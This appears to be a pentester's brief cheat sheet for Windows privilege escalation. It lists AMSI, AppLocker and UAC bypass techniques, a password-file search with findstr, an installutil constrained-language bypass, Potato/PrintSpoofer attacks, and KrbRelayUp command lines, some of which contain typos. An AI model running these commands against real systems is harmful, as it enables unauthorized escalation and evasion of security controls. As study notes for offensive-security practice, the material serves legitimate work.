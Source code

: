 ### Privesc

Get Applocker info
	Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe (dll/msi/...)

winpeas.exe


AMSI bypass
	https://amsi.fail/
	Reflection method
	Patching amsi.dll

search password files
	findstr /si 'password' *.txt *.xml *.docx
	User account

AppLocker (whitelisting) bypass
	use C:\Windows\Tasks
	use C:\Windows\Temp
	Powershell CLM bypass
		installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe
	mshta.exe my.hta
	MSBuild

User Access Control (UAC) bypass
	FodHelper
	WSReset
	MSDT

SMBGhost CVE-2020-0796

CVE-2021-36934 (HiveNightmare/SeriousSAM)

service account (IIS/Mssql) 
(got SEImpersonate)
	RoguePotato
	Juicy Potato / Lovely Potato
	🔥 PrintSpoofer

🔥 KrbRelayUp
	.\KrbRelayUp.exe relay -Domain <domain> -CreateNewComputerAccount -ComputerName <computer$> -ComputerPassword <password>
		./KrbRelayUp.exe spawn -m rbcd -d <omdain> -dc <dc> -cn <computer_name>-cp <omputer_pass>

